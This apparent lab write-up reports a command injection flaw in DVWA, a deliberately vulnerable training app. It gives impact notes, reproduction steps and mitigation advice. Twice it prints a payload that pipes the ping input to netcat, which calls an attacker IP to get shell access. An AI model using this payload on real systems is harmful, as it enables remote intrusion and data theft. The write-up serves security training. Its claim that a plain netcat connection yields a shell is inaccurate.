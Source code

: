 # DVWA - Command Injection Vulnerability - Remote Code Execution(RCE)

* Introduction:  

CMDI (Command Injection) is a web security vulnerability that allows an attacker to inject malicious Command into a website, which is without any validation interpreted as normal data and get executed by the Backend Systems. 

* Vulnerability Details:  

The vulnerable URL is: `http://10.10.25.252/cmdi`
An attacker can inject a malicious cmd query in the ping IP box.

* Proof of Concept (POC):  

In the User ID field, enter: `192.168.0.100 | nc 192.168.0.104 1337`
This will try to connect to the 192.168.0.104(Attacker IP) on Port 1337 and will give a shell access to the attacker where he can execute CMD on the website backend system.

* Impact:  

If Someone is able to inject a malicious Code in the Website and able to get a Remote Code Execution Exploit, then he can access the system on which the website he been hosted. He can retrieve critical data from the system or can use that as the launchpad for pivoting and attacking other system in the network.

* Steps to Reproduce:

1. Log in as a user on url [http://10.10.25.252/login.php]  
2. Visit the Command Injection Section.  
3. Enter the following payload into the Ping IP field: `192.168.0.100 | nc 192.168.0.104 1337`

* Recommendation:  

1. Implement output encoding for harmful characters to prevent the interpretation of user input as code.  
2. Implement a Strong & Proper Validation  
3. Regularly scan the application for Command Injection vulnerabilities.

* Attachments:  

![cmd1](<screenshots/Screenshot 2025-05-26 170426.png>)  
![cmd2](<screenshots/Screenshot 2025-05-27 111816.png>)
